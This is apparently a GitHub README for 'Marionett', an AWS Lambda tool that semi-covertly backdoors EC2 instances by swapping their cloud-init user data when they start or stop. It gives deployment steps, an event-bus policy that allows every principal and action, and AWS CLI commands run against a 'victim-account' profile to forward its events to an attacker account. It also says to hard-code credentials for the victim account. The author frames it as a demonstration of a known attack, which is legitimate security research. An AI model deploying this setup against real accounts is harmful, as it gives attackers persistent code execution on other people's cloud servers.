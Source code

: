 # Marionett

Marionett is an example of an automated lambda function that runs that swaps out user data on RunInstance and 
EC2 Instance State Change events. It  exists as an example of how an attacker could semi-covertly backdoor EC2 instances
passively on instance change events or actively on creation. The API calls will stand out, but from the user's
perspective when in passive mode there will be no obvious changes to the instance, in active mode the instance is simply
taking longer to start up (although may cause issues with certain provisioning tools). This is a well known attack,
only change to what I've seen elsewhere is adding Event Bridge and Lambda.

In general this is an improved version of [UserDataSwap](https://github.com/RyanJarv/UserDataSwap).

## Active vs Passive

Marionett can run in either active or passive mode, passive is generally safer and less likely to interfere with
infrastructure provisioning however requires the instance to be shutdown through some other means, likely by the end
user. When running in the active mode Marionett will shut down the node shortly after it is initially created with
the RunInstances API, by default this is immediately however can be configured to wait up to 900 seconds after creation
to work around issues that you may run into with various provisioning tools.

## Config
The config is located at `chalicelib/config.yaml` and should be edited before deploy.
### Options
* dynamodb_table
  * Name of the DynamoDB table to create to track instance state.
* sqs_queue
  * Name of the SQSQueue table to create to queue restart events when using active mode.
* active_mode
  * `True` or `False`, enables active mode.
* restart_delay
  * Used when active_mode is set to `True`. 
  * Number of seconds to wait after the RunInstances API is called before restarting the instance.
    * To work around terraform SSH provisioning complaining about an incorrect instance state this can be set to 9. 
      However, this is only useful if an Elastic IP or IPv6 address is used to connect to the instance, otherwise the
      IP will change on restart and SSH provisioning will fail.
    * To work around terraform SSH provisioning when an ElasticIP address is used you can set this to a higher number
      to have it wait till provisioning is complete before restarting. Essentially this needs to be a best guess since
      we don't have any indication when this may be done.
* user_data
  * Our user data we want to set on the instance temporarily.
  * This will get reverted to the original metadata at the next instance stopped event.
  * `bootcmd` will run at every startup regardless of if cloud-init has run previously.

### Default Settings
```
---
dynamodb_table: UserDataSwap
sqs_queue: user-data-swap-restart-delay
active_mode: False
restart_delay: 0
user_data: |-
#cloud-config

bootcmd:
- echo HELLO FROM USER DATA SCRIPT | tee /msg > /dev/kmsg
```

## Cross-Account Access

There is a fair amount of permissions required to deploy this, which is ok if you just want to test it out. To be useful
it may make more sense to deploy in a seperate account then the one you're targeting, this way the initial set up only
requires `events:PutRule` and `events:PutTargets` permissions in the victim account. I'll likely add support for this in
the future, for now you can try the following to do this manually.

__WARNING__: This will allow any AWS account to run any action against the bus set up in the Marionett account,
probably best to set this part up in a account that isn't used for anything else. The permissive resource policy is one
of the ways to get override the lack of permissions assigned to the the put-event rule in the victim account. Doing it
this way avoids the need for `iam:PassRole` permissions in the victim account to create the event bus rules that forward
the events to the Marionette account. It may be possible to reduce these permissions, I need to do more testing here
though.

* In the Marionett account:
  * In the Marionett lambda account create a new event bus named `run-instance-trigger` and give it the following
    resource policy.
    ```
    {
      "Version": "2012-10-17",
      "Statement": [{
        "Sid": "allow_account_to_put_events",
        "Effect": "Allow",
        "Principal": "*",
        "Action": "*",
        "Resource": "<this event bus arn>"
      }]
    }
    ```
  * Set up the following rule to trigger the Marionett function with the event config below.
     ```
      {
        "source": ["aws.ec2"],
        "detail-type": ["EC2 Instance State-change Notification"],
        "detail": {
          "state": ["stopped"]
        }
      }
     ```
  * If active mode is used add a second rule with the following.
     ```
     {
       "source": ["aws.ec2"],
       "detail": {
         "eventSource": ["ec2.amazonaws.com"],
         "eventName": ["RunInstances"]
       }
     }
     ```
* In the victim account:
  * Create the run-instances event trigger:
    ```
    aws --profile victim-account events put-rule \
      --name run-instance-trigger \
      --state ENABLED \
      --event-bus-name default \
      --event-pattern '{
          "source": ["aws.ec2"],
          "detail": {      
            "eventSource": ["ec2.amazonaws.com"],
            "eventName": ["RunInstances"]
          }
        }'
    ```
  * Add a target to forward to the event-bus in the Marionett account:
    ```
    aws events put-targets --rule run-instance-trigger \
      --event-bus-name default \
      --targets "Id"="1","Arn"="arn:aws:events:<region>:<attacker account #>:event-bus/run-instance-trigger"
    ```
* You should see the Marionett triggered when a instance is created in the victim account now.
  * Update the lambda to hard code the credentials needed to make EC2 related calls in the vicitims account and deploy.

## More Info

For more info you can see my post on [Backdooring user data](https://blog.ryanjarv.sh/2020/11/27/backdooring-user-data.html)

## Related Attacks

For another similar attack (Update: AWS now prevents this in most accounts) with different pros/cons take a look at 
[EC2FakeIMDS](https://github.com/RyanJarv/EC2FakeImds). The talk and slides going over these two can be found on
[my blog](https://blog.ryanjarv.sh/2020/12/04/deja-vu-in-the-cloud.html).

## Requirements

* AWS CLI already configured with Administrator permission (see the Cross Account setup section for more info on
  how this can be reduced).
* Recent version of [Python](https://www.python.org/)
* [Chalice](https://github.com/aws/chalice)
* [AWS CLI](https://pypi.org/project/awscli/)

## Setup process

### Installing dependencies & building the target 

```shell
python3 -m venv venv
source venv/bin/activate
pip install chalice boto3
```

## Deployment

```bash
make deploy/infra
```

## Wish List
* Target individual instances or tags

### Testing

TODO
